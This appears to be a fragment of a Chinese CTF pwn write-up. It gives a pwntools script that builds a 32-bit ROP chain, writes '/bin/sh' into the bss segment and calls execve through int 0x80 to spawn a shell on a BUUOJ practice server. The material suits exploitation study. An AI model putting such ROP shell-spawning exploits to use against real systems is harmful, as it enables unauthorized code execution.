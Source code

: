 
思路就是系统调用execve，然后把参数/bin/sh写入bss段

```python
from pwn import *
context(arch = "i386",os = "linux",log_level='debug')
d=remote('node4.buuoj.cn',25149)
d=process('./a')
int_0x80_addr=0x0806c943
bss_addr=0x080EBB81
e=ELF('./a')
#bss_addr=e.bss()
pop_eax_addr=0x080b8016
pop_ebx_addr=0x080481c9
pop_ecx_addr=0x080de769
pop_edx_addr=0x0806ecda
pop_in_ecx_addr=0x0804b5ba
payload=16*'a'
payload+=p32(pop_ecx_addr)+p32(bss_addr) #利用ecx当一个媒介，以此来让/bin/sh写到bss段，最后的00用来截断，不然execve接收参数的时候，它不知道什么时候参数截止。
payload+=p32(pop_in_ecx_addr)+'/bin'
payload+=p32(pop_ecx_addr)+p32(bss_addr+4)
payload+=p32(pop_in_ecx_addr)+'/sh\x00'
payload+=p32(pop_eax_addr)+p32(0xb)
payload+=p32(pop_ebx_addr)+p32(bss_addr)#把ebx存入参数/bin/sh的地址
payload+=p32(pop_ecx_addr)+p32(0)
payload+=p32(pop_edx_addr)+p32(0)
payload+=p32(int_0x80_addr)
d.sendline(payload)
d.interactive()
```

—————————————————————————————————————————————

## cmcc_simplerop

<img src="/upload/img/image-20220411122642935.png" alt="image-20220411122642935" style="zoom:33%;" />
